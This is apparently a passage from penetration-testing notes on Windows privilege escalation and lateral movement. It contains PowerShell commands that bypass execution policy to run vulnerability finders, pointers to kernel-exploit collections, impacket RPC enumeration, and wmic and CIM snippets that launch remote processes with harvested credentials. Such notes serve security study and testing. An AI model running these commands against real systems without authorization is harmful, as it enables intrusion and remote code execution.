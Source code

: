```cmd
# If your ps1 file is downloaded 

c:\>powershell.exe -exec bypass -Command "& {Import-Module .\Sherlock.ps1; Find-AllVulns}"

c:\>powershell.exe -exec bypass -Command "& {Import-Module .\PowerUp.ps1; Invoke-AllChecks}"
```

* New systems (more stealthy):

1. wseng
`https://github.com/bitsadmin/wesng`

`python wes.py --update`

`python wes.py ~/Sandbox/Winodows_PrivEsc/systeminfo.txt --exploits-only`

2. Use pre-compiled binaries
`https://github.com/SecWiki/windows-kernel-exploits`

3. Watson for older systems

## RPC

* Dump services

`impacket-rpcdump TARGET_IP`

* Map RPC service
`impacket-rpcmap -no-pass -target-ip TARGET_IP ncacn_np:\\JEFF[\PIPE\atsvc]`

## wmic 

* If you got creds and WMI is open on the target (only older machines), gain RCE using wmic on win host locally

`wmic /node:192.168.50.xxxx /user:bob101 /password:Password! process call create "calc"`

* Same on powershell

```powershell

$username = 'user101';
$password = 'Password!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;


$options = New-CimSessionOption -Protocol DCOM
$session = New-Cimsession -ComputerName 192.168.xx.xxx -Credential $credential -SessionOption $Options 
$command = 'calc';

Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};

```
